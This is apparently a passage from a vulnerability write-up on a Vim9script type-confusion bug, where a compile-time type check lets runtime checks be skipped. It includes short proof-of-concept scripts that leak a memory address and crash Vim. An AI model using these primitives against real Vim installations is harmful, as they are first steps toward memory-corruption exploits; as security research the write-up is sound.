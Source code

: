 ![Error String as a Number](images/String-as-a-Number.png)

Well, it did nothing. But understanding why, is a huge step in understanding the vulnerability.

Apparently the checks performed at compile time and at runtime are different. You may have
noticed that the `check_type_maybe` function can return not only `OK` and `FAIL`, but also `MAYBE`.
This because at compile time, we may have some uncertainty on the types, but not at runtime.
However, if the compilers returns `OK`, the runtime check will be skipped. So we just need
to create a function, it will be compiled with the "hacked" type check and it will run just
like that.

```vim
vim9script
def Fun()
    var s: string = "AAAA"
    var arr: list<number> = [1]
    arr[s]
enddef
Fun()
```

And...

![Error out of range leak](images/index-out-of-range-leak.png)

Nice! That number is `0x5638f628a1a0`, definitely a leak.

Another thing that we may try, is to assign an object to a number. At runtime, it will just
be converted to that object, but at compile time it will be a number, thus we will be able
to use "number functions". Let's try with the `+`.
```vim
vim9script
def Fun()
    var s: string = "AAAA"
    var n: number = s
    n += 1
    echo n
enddef
Fun()
```

![Crash](images/crash.png)

Wow, a crash! That's one way to quit vim.

